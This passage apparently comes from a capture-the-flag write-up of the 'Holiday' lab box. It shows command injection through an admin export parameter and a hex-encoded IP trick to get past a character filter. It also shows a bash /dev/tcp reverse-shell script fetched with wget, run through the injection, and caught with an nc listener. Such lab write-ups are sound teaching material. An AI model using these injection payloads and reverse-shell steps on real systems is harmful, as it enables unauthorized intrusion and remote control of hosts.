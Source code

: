 
That’s interesting. Why would a table name need a space, forward slash, or
ampersand. The ampersand inspired me to try command injection by visiting
`/admin/export?table=users%26id`:

    
    
    uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)
    1|RickA|fdc8cd4cff2c19e0d1022e78481ddf36|1
    

#### Shell / Filter Bypass

Now that I have code execution, I’ll need a shell. All the reverse shells I
typically use have tons of banned characters in them. The first thing I need
to figure out is how to get my ip. Luckily, there’s a trick on Linux that IPs
can be written in hex. On my local box, I’ll demonstrate. 127 = 0x7f, 0 =
0x00, and 1 = 0x01. So I can ping 0x7f000001:

    
    
    root@kali# ping -c 1 0x7f000001
    PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms
    
    --- 0x7f000001 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.028/0.028/0.028/0.000 ms
    

Once you have that trick, the rest is rather straight forward. I’ll create a
file, `rev` with a reverse shell in it:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.30/443 0>&1
    

Now I’ll use `wget` to get it onto Holiday. Nothing comes back in the
response:

![1567849534705](https://0xdfimages.gitlab.io/img/1567849534705.png)

But I do get a hit on my webserver:

    
    
    10.10.10.25 - - [07/Sep/2019 05:39:33] "GET /rev HTTP/1.1" 200 -
    

I can also see it on Holiday using `ls`:

![1567849619632](https://0xdfimages.gitlab.io/img/1567849619632.png)

Now i’ll run it by visiting `/admin/export?table=b%26bash+rev`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:54220.
    bash: cannot set terminal process group (1146): Inappropriate ioctl for device
    bash: no job control in this shell
    algernon@holiday:~/app$ id
    uid=1001(algernon) gid=1001(algernon) groups=1001(algernon)
    